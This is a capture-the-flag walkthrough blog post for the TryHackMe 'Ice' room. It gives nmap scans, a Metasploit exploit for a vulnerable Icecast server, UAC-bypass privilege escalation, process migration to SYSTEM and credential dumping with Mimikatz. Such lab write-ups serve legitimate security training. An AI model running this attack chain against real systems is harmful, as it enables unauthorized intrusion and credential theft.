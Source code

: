 ```yaml
---
layout: post
title: Ice – Try Hack Me
subtitle: Walkthrough
tags: [windows,metasploit,mimikatz]
---
```


From this machine you will have a basic understanding about enumeration, finding outdated software, using metasploit and basic windows exploitation.

Learning Objectives:

* Enumeration
* Metasploit
* Mimikatz

[Challenge](https://tryhackme.com/room/ice)

## Task 1

Initiate the VPN connection and deploy the machine

## Task 2 -> Enumeration

We start by adding the IP address of our machine to the /etc/hosts

~~~
echo 10.10.165.196 ice >> /etc/hosts
~~~

Basic nmap scan to discover what we are working with

~~~
nmap ice
~~~

![nmap](/img/2020-04-27-Ice/nmap.png)

Using the first scan we will use the ports discovered and run a more complete scan.

~~~
nmap -p135,139,445,3389,5357,8000,49152,49153,49154,49158,49159,49160 -A -T4 ice
~~~

![nmapa](/img/2020-04-27-Ice/nmap2.png)

From this scan we discover some interesting open ports as well as the hostname of the machine.

## Task 3 -> Getting Access

Searching through [cvedetails](https://www.cvedetails.com) we found [CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/) which is a vulnerability capable of Code Execution.
Starting metasploit and using the search feature we quicly find a mathcing module

~~~
exploit/windows/http/icecast_header
~~~

![msf](/img/2020-04-27-Ice/msf.png)

Select the module using:
~~~
use 0
~~~

Looking at the options required, we only need to set RHOSTS and we will be ready to run the exploit.

~~~
set rhosts ice
~~~

![msf](/img/2020-04-27-Ice/msf2.png)

Just like that we have a meterpreter shell in the system.

## Task 4 -> Escalate

We start doing some recon work by better understanding the system that we are in.  
Using these commands we can get information about: Server user, OS, Architecture and Domain.

~~~
getuid
sysinfo
~~~

![met](/img/2020-04-27-Ice/meterpreter.png)

Metasploit provides a module that will automatically suggest some exploits based on the system that we are in. 

~~~
run post/multi/recon/local_exploit_suggester
~~~
![exp](/img/2020-04-27-Ice/exploits.png)

We found an exploit, let's use it! Background the session using 'CTRL + z', in case this command also backgrounds the metasploit process, you should run 'fg' to get back into metasploit and then use the command 'background'.  

Select the exploit using the following command:

~~~
use exploit/windows/local/bypassuac_eventvwr
~~~

Looking at the options first select the correct session in my case this is session 1, if you are unsure run the commands 'sessions' to check yours.

~~~
set SESSION 1
~~~

Once you do new options will appear, in case they don't run the exploit and check back the options menu.
Looking at the new options menu, we must set the lhost. Run 'ifconfig' and look at the ip address from your tun0 interface this represents your ip from Try Hack Me.

~~~
set lhost <YOUR_IP>
run
~~~

![exp2](/img/2020-04-27-Ice/exploit2.png)

Looking at the privileges from this new session we can clearly see that we are capable of doing a lot more.

~~~
getprivs
~~~
![priv](/img/2020-04-27-Ice/priv.png)


## Task 5 -> Looting

Start by running 'ps' and grab the PID of the spoolsv.exe. We want to migrate to this process since even though we have a lot of privileges in the system, our current process does not, therefore we need to migrate to another, the spoolsv.exe is owned by 'NT AUTHORITY\SYSTEM' which is exactly what we want.

~~~
ps
migrate <PID_OF_spoolsv.exe>
~~~

![ps](/img/2020-04-27-Ice/ps.png)

Once we are in the spoolsv.exe process, we will be 'NT AUTHORITY\SYSTEM' and have full administrator permissions.  
Using [Mimikatz](https://github.com/gentilkiwi/mimikatz) we can retrieve all the credentials.

~~~
getuid
load kiwi
creds_all
~~~

![mimi](/img/2020-04-27-Ice/mimikatz.png)


## Task 6 -> Post-Exploitation

This section wants to hone your skills about the meterpreter shell and Mimikatz
Have a look at the documentation by typing:

~~~
help
~~~

